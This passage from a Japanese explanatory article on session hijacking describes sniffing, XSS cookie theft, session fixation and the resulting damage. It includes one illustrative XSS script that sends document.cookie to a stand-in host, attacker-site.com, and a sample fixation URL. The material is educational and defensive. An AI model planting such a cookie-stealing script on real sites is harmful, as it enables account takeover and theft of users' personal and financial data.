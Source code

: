 #### 2.2. セッションIDの窃取 (Session Sniffing/Theft)

ユーザーとサーバー間の通信を盗聴したり、他の脆弱性を利用したりして、セッションIDを直接盗み出す手口です。

*   **通信の盗聴（スニッフィング）**:
    *   **概要**: 暗号化されていないHTTP通信でセッションIDがやり取りされている場合、攻撃者はネットワーク上の通信データを盗聴（スニッフィング）することで、セッションIDを容易に盗むことができます。 特に、カフェや空港などで提供される公共のWi-Fiは、通信が暗号化されていないことが多く、格好の標的となります。
    *   **手法**: パケットキャプチャツールなどを用いて、ネットワークを流れるデータを監視し、Cookie情報に含まれるセッションIDを抜き取ります。

*   **クロスサイトスクリプティング (XSS)**:
    *   **概要**: Webサイトの脆弱性を利用して、悪意のあるスクリプトをページに埋め込み、そのページを閲覧したユーザーのブラウザ上で実行させる攻撃です。 このスクリプトを使って、ユーザーのCookieに保存されているセッションIDを盗み出し、攻撃者のサーバーに送信させることができます。
    *   **攻撃フローの例**:
        1.  攻撃者が、脆弱性のあるWebサイト（例：掲示板）に、セッションIDを盗むための不正なスクリプトを仕込んだ投稿を行う。
        2.  何も知らないユーザーがその投稿を閲覧する。
        3.  ユーザーのブラウザで不正なスクリプトが実行され、ユーザーのCookie情報（セッションIDを含む）が攻撃者の用意したサーバーに送信される。
        4.  攻撃者は盗んだセッションIDを使い、そのユーザーになりすましてWebサイトにアクセスする。
    *   **コード例（イメージ）**:
        攻撃者が掲示板に以下のようなJavaScriptコードを埋め込みます。
        ```html
        <script>
          // ユーザーのCookie情報を盗み、攻撃者のサーバーに画像としてリクエストを送るふりをして送信する
          var img = new Image();
          img.src = "http://attacker-site.com/steal?cookie=" + document.cookie;
        </script>
        ```

*   **マルウェアやフィッシング**:
    *   ユーザーのPCをマルウェアに感染させ、ブラウザに保存されているCookie情報を直接盗み出す。
    *   フィッシングサイトにユーザーを誘導し、セッション情報を入力させる。

#### 2.3. セッションIDの固定化 (Session Fixation)

攻撃者が事前に用意したセッションIDを、何らかの方法でユーザーのブラウザに設定させ、そのセッションIDを使ってユーザーがログインした後にセッションを乗っ取る手口です。 「セッションIDのお膳立て」とも呼ばれます。

*   **攻撃フローの例**:
    1.  攻撃者はまず、標的のWebサイトにアクセスし、有効なセッションIDを取得します。この時点ではログインする必要はありません。
    2.  攻撃者は、取得したセッションIDを含んだURLを作成し、メールやSNSなどでユーザーに送りつけ、クリックするように誘導します。（例: `http://example.com/login?session_id=攻撃者が用意したID`）
    3.  ユーザーがそのURLをクリックしてサイトにアクセスすると、ユーザーのブラウザには攻撃者が用意したセッションIDがセットされます。
    4.  ユーザーがそのサイトで自身のIDとパスワードを使って正常にログインします。
    5.  Webサイト側では、攻撃者が用意したセッションIDが「認証済み」の状態になります。
    6.  攻撃者は、手元に控えておいた同じセッションIDを使ってWebサイトにアクセスし、ユーザーになりすますことができます。

この攻撃は、Webサイトが「ログイン成功後にセッションIDを新しいものに変更しない」という脆弱性がある場合に成立します。

---

### 3. セッションハイジャックによる被害

セッションハイジャックが成功すると、攻撃者は正規のユーザーになりすますことができるため、様々な被害が発生する可能性があります。

*   **個人情報・機密情報の漏洩**: アカウントに登録されている氏名、住所、連絡先、購買履歴などの個人情報や、企業の機密情報が盗まれます。
*   **金銭的被害**:
    *   ECサイトで登録済みのクレジットカード情報を悪用され、勝手に商品を購入される。
    *   オンラインバンキングに不正アクセスされ、預金を不正に送金される。
*   **登録情報の改ざん・不正操作**: SNSアカウントで不適切な投稿をされたり、オンラインサービスの登録情報を勝手に変更・削除されたりします。
*   **サーバーへの不正侵入**: 管理者権限を持つアカウントのセッションが乗っ取られた場合、サーバーに侵入され、Webサイトの改ざんや、他のシステムへの攻撃の踏み台にされる可能性があります。
*   **信頼の失墜**: 被害が発生した企業の社会的信用の失墜や、損害賠償に発展する恐れがあります。
